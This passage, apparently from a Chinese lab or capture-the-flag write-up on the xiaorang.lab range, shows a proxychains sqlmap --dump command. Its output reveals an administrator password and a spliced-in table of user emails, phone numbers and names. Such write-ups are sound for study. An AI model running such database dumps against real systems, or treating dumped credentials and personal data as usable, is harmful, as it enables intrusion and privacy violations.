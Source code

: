 看起来就很蠢，直接 sqlmap 一把梭

```plain
proxychains sqlmap -r 1.txt --dump
+----+------------------+---------------+
| id | password         | username      |
+----+------------------+---------------+
| 1  | bo2y8kAL3HnXUiQo | administrator |
+----+------------------+---------------+
|245 | chenyan@xiaorang.lab       | 18281528743 | CHEN YAN        |
| 246 | tanggui@xiaorang.lab       | 18060615547 | TANG GUI        |
| 247 | buning@xiaorang.lab        | 13046481392 | BU NING         |
| 248 | beishu@xiaorang.lab        | 18268508400 | BEI SHU         |
| 249 | shushi@xiaorang.lab        | 17770383196 | SHU SHI         |
| 250 | fuyi@xiaorang.lab          | 18902082658 | FU YI           |
| 251 | pangcheng@xiaorang.lab     | 18823789530 | PANG CHENG      |
| 252 | tonghao@xiaorang.lab       | 13370873526 | TONG HAO        |
| 253 | jiaoshan@xiaorang.lab      | 15375905173 | JIAO SHAN       |
| 254 | dulun@xiaorang.lab         | 13352331157 | DU LUN          |
| 255 | kejuan@xiaorang.lab        | 13222550481 | KE JUAN         |
| 256 | gexin@xiaorang.lab         | 18181553086 | GE XIN          |
| 257 | lugu@xiaorang.lab          | 18793883130 | LU GU           |
| 258 | guzaicheng@xiaorang.lab    | 15309377043 | GU ZAI CHENG    |
| 259 | feicai@xiaorang.lab        | 13077435367 | FEI CAI         |
| 260 | ranqun@xiaorang.lab        | 18239164662 | RAN QUN         |
| 261 | zhouyi@xiaorang.lab        | 13169264671 | ZHOU YI         |
| 262 | shishu@xiaorang.lab        | 18592890189 | SHI SHU         |
| 263 | yanyun@xiaorang.lab        | 15071085768 | YAN YUN         |
| 264 | chengqiu@xiaorang.lab      | 13370162980 | CHENG QIU       |
| 265 | louyou@xiaorang.lab        | 13593582379 | LOU YOU         |
| 266 | maqun@xiaorang.lab         | 15235945624 | MA QUN          |
| 267 | wenbiao@xiaorang.lab       | 13620643639 | WEN BIAO        |
| 268 | weishengshan@xiaorang.lab  | 18670502260 | WEI SHENG SHAN  |
| 269 | zhangxin@xiaorang.lab      | 15763185760 | ZHANG XIN       |
| 270 | chuyuan@xiaorang.lab       | 18420545268 | CHU YUAN        |
| 271 | wenliang@xiaorang.lab      | 13601678032 | WEN LIANG       |
| 272 | yulvxue@xiaorang.lab       | 18304374901 | YU LV XUE       |
| 273 | luyue@xiaorang.lab         | 18299785575 | LU YUE          |
| 274 | ganjian@xiaorang.lab       | 18906111021 | GAN JIAN        |
| 275 | pangzhen@xiaorang.lab      | 13479328562 | PANG ZHEN       |
| 276 | guohong@xiaorang.lab       | 18510220597 | GUO HONG        |
| 277 | lezhong@xiaorang.lab       | 15320909285 | LE ZHONG        |
| 278 | sheweiyue@xiaorang.lab     | 13736399596 | SHE WEI YUE     |
| 279 | dujian@xiaorang.lab        | 15058892639 | DU JIAN         |
| 280 | lidongjin@xiaorang.lab     | 18447207007 | LI DONG JIN     |
| 281 | hongqun@xiaorang.lab       | 15858462251 | HONG QUN        |
| 282 | yexing@xiaorang.lab        | 13719043564 | YE XING         |
| 283 | maoda@xiaorang.lab         | 13878840690 | MAO DA          |
| 284 | qiaomei@xiaorang.lab       | 13053207462 | QIAO MEI        |
| 285 | nongzhen@xiaorang.lab      | 15227699960 | NONG ZHEN       |
| 286 | dongshu@xiaorang.lab       | 15695562947 | DONG SHU        |
| 287 | zhuzhu@xiaorang.lab        | 13070163385 | ZHU ZHU         |
| 288 | jiyun@xiaorang.lab         | 13987332999 | JI YUN          |
| 289 | qiguanrou@xiaorang.lab     | 15605983582 | QI GUAN ROU     |
| 290 | yixue@xiaorang.lab         | 18451603140 | YI XUE          |
| 291 | chujun@xiaorang.lab        | 15854942459 | CHU JUN         |
| 292 | shenshan@xiaorang.lab      | 17712052191 | SHEN SHAN       |
| 293 | lefen@xiaorang.lab         | 13271196544 | LE FEN          |
| 294 | yubo@xiaorang.lab          | 13462202742 | YU BO           |
| 295 | helianrui@xiaorang.lab     | 15383000907 | HE LIAN RUI     |
| 296 | xuanqun@xiaorang.lab       | 18843916267 | XUAN QUN        |
| 297 | shangjun@xiaorang.lab      | 15162486698 | SHANG JUN       |
| 298 | huguang@xiaorang.lab       | 18100586324 | HU GUANG        |
| 299 | wansifu@xiaorang.lab       | 18494761349 | WAN SI FU       |
```